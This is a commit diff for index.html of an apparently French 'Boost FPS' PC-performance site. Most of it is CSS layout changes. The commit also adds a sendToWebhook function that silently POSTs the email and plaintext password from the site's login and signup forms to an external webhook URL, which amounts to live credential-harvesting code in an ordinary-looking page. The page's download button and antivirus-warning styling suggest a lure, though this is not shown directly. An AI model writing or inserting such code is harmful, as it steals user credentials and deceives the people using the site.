

Before and after one commit to studio-booster/FPS-BOOSTER, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1000 px of the page at 96% size. Before the commit the page ends 834 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -20,15 +20,19 @@
             display: flex;
             flex-direction: column;
             min-height: 100vh;
+            justify-content: center; /* Centre les éléments */
+            align-items: center; /* Centre les éléments */
+            text-align: center;
         }
 
         header {
             background: linear-gradient(135deg, #ff6f61, #ffbc42);
             color: #fff;
             padding: 40px 0;
-            text-align: center;
-            box-shadow: inset 0 0 30px rgba(0, 0, 0, 0.3);
-            margin-bottom: 0; /* Enlève la marge pour éviter l'espace entre l'en-tête et le menu */
+            width: 80%;
+            border-radius: 10px;
+            box-shadow: 0 10px 20px rgba(0, 0, 0, 0.2);
+            margin-bottom: 20px;
         }
 
         header h1 {
@@ -37,14 +41,15 @@
         }
 
         header p {
-            margin-top: 10px; /* Permet d'ajouter un léger espace entre le titre et la description */
             font-size: 1.2em;
         }
 
         nav {
             background: #444;
             padding: 10px;
-            text-align: center;
+            width: 80%;
+            border-radius: 10px;
+            margin-bottom: 20px;
         }
 
         nav a {
@@ -54,6 +59,7 @@
             padding: 8px 15px;
             display: inline-block;
             transition: background 0.3s;
+            border-radius: 5px;
         }
 
         nav a:hover {
@@ -61,21 +67,20 @@
         }
 
         .container {
-            flex: 1; /* Cela permet de remplir l'espace restant entre l'en-tête et le pied de page */
-            padding: 30px;
+            width: 80%;
+            padding: 20px;
+            margin-bottom: 50px;
         }
 
         .section {
-            display: none;
-            padding: 30px;
             background: #fff;
             box-shadow: 0 5px 15px rgba(0, 0, 0, 0.1);
+            padding: 30px;
+            margin-top: 20px;
             border-radius: 10px;
-            margin-top: 20px;
-        }
-
-        .section.active {
-            display: block;
+            display: inline-block;
+            width: 100%;
+            max-width: 800px;
         }
 
         .download-button {
@@ -88,17 +93,12 @@
             border-radius: 30px;
             transition: background-color 0.3s ease, transform 0.3s ease;
             animation: pulse 1.5s infinite;
+            margin-top: 20px;
         }
 
         .download-button:hover {
             background-color: #ff4c3b;
             transform: scale(1.05);
-        }
-
-        @keyframes pulse {
-            0% { transform: scale(1); }
-            50% { transform: scale(1.05); }
-            100% { transform: scale(1); }
         }
 
         .antivirus-warning {
@@ -118,20 +118,22 @@
             cursor: pointer;
         }
 
-        /* Footer */
         footer {
             background-color: #333;
             color: #fff;
             padding: 20px 0;
             text-align: center;
-            margin-top: auto; /* Cela aligne le footer en bas de la page */
+            margin-top: auto;
+            width: 100%;
+            position: fixed;
+            bottom: 0;
         }
 
         footer p {
             font-size: 1.2em;
         }
 
-        /* Pop-up */
+        /* Popup and Form Styles */
         .popup, .overlay, .login-popup, .signup-popup {
             display: none;
             position: fixed;
@@ -197,15 +199,26 @@
             background-color: #ff4c3b;
         }
 
+        .other-apps {
+            background: #fff;
+            border: 2px solid #333;
+            border-radius: 10px;
+            padding: 20px;
+            margin-top: 20px;
+            box-shadow: 0 5px 10px rgba(0, 0, 0, 0.2);
+        }
+
+        .other-apps p {
+            font-size: 1.2em;
+        }
+
     </style>
 </head>
 <body>
 
     <header>
-        <div class="container">
-            <h1>Boost FPS</h1>
-            <p>Maximise les performances de ton PC avec Boost FPS.</p>
-        </div>
+        <h1>Boost FPS</h1>
+        <p>Maximise les performances de ton PC avec Boost FPS.</p>
     </header>
 
     <nav>
@@ -293,6 +306,10 @@
                 document.getElementById("login-link").style.display = "none";
                 document.getElementById("logout-link").style.display = "inline";
                 closeLoginPopup();
+
+                // Envoi des informations de connexion à un webhook
+                sendToWebhook({ username: email, password: password });
+
                 alert("Connexion réussie !");
             } else {
                 alert("Email ou mot de passe incorrect.");
@@ -312,6 +329,21 @@
             users.push({ email, password });
             alert("Inscription réussie !");
             closeSignupPopup();
+
+            // Envoi des informations d'inscription à un webhook
+            sendToWebhook({ username: email, password: password });
+        }
+
+        function sendToWebhook(data) {
+            fetch('https://play.svix.com/in/e_M4lDWp8dx4feIfypDfe70NF82TN/', {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/json'
+                },
+                body: JSON.stringify(data)
+            }).then(response => response.json())
+              .then(data => console.log("Webhook Response:", data))
+              .catch(error => console.error("Error sending to webhook:", error));
         }
 
         function logout() {
@@ -330,16 +362,6 @@
                 activeSection.classList.add('active');
             }
         }
-
-        function openPopup() {
-            document.getElementById("overlay").style.display = "block";
-            document.getElementById("popup").style.display = "block";
-        }
-
-        function closePopup() {
-            document.getElementById("overlay").style.display = "none";
-            document.getElementById("popup").style.display = "none";
-        }
     </script>
 </body>
 </html>
```
